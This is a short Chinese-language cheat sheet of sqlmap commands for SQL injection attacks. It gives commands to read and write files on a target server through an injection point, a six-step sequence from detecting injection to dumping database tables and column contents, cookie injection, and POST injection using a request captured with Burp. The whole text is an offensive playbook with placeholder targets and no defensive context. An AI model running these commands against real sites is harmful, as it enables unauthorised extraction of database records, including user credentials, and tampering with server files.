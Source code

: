 
## 读取文件

```
sqlmap -u "目标注入点" --file-read "文件名【可以包含路径】"
```



## 写入文件

```
sqlmap -u "目标注入点" --file-write "文件名" --file-dest "文件名【包含】"
```





# sqlmap常用命令总结：

注意：命令为kali linux中运行的 （windows中用python sqlmap.py执行）

## 1、注入六连：

1.   sqlmap -u  "http://www.xx.com?id=x"    【查询是否存在注入点

2.   --dbs         【检测站点包含哪些数据库

3.   --current-db    【获取当前的数据库名

4.   --tables -D "db_name"  【获取指定数据库中的表名 -D后接指定的数据库名称

5.   --columns  -T "table_name" -D "db_name"  【获取数据库表中的字段

6.   --dump -C "columns_name" -T "table_name" -D "db_name"  【获取字段的数据内容

## 2、COOKIE注入：

sqlmap -u "http://www.xx.com?id=x" --cookie "cookie" --level 2  【cookie注入 后接cookie值

## 3、POST注入：

（1）目标地址http:// www.xxx.com /login.asp
（2）打开brup代理。
（3）点击表单提交
（4）burp获取拦截信息（post）
（5）右键保存文件（.txt）到指定目录下
（6）运行sqlmap并执行如下命令：
用例：sqlmap -r okay.txt  -p  username

// -r表示加载文件(及步骤（5）保存的路径)，-p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）

（7）自动获取表单：--forms自动获取表单

例如：sqlmap -u www.xx.com/login.asp --forms
